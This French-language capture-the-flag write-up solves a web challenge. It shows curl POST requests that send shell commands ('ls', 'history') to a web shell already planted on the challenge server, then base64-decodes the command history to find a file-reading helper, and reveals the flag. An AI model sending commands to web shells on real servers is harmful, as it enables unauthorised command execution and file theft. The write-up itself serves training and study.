

**Webshell - Web - 300**

Enoncé :

```
Now somebody uploaded a web shell to my web server. What a nice guy hurray!

http://138.197.41.168:8081/

HINT: I think somebody used some commands already but I could not figure how to find them.

```




__Résolution :__

On injecte tout d'abord une commande de base :
```BASH
curl -XPOST http://138.197.41.168:8081/ --data "command=ls"                               

index.php shell.jpg flag.txt
```

Le fichier flag.txt n'est pas directement accessible.

Le hint donné nous donne un sacré indice sur la commande à injecter :

```BASH
curl -XPOST http://138.197.41.168:8081/ --data "command=history"

1  ZXh0c
2  mFfc2
3  VjdXJ
4  lX2Zp
5  bGVfc
6  mVhZG
7  Vy

```
On décode le base64 :

```BASH
echo -n 'ZXh0c mFfc2 VjdXJ lX2Zp bGVfc mVhZG Vy' | base64 -di

extra_secure_file_reader
```
On va lire le fichier qui nous intéresse

```BASH

curl -XPOST http://138.197.41.168:8081/ --data "command=extra_secure_file_reader flag.txt"

YUBITSEC{shello_shello_are_you_thereo}

```


By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
